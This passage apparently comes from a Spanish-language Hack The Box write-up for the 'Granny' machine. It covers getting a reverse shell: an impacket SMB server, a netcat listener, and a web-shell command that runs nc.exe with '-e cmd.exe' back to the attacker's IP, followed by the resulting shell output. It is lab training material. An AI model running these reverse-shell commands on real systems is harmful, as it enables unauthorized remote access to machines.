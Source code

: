 ```bash
Granny # ❯ impacket-smbserver shared . -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

dejamos en escucha el puerto 443 con netcat en nuestra maquina local

```bash
Granny # ❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
```

ejecutamos la siguiente linea de comandos en nuestra web shell

```bash
/c \\10.10.14.54\shared\nc.exe -e cmd.exe 10.10.14.54 443
```

![Untitled](/assets/images/2022-02-15-writeup-maquina-htb-granny/Untitled%204.png)

de esta manera logramos obtener nuestra reverse shell 

```bash
Granny # ❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.54] from (UNKNOWN) [10.129.144.63] 1044
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\network service
```

## Escalacion de privilegios
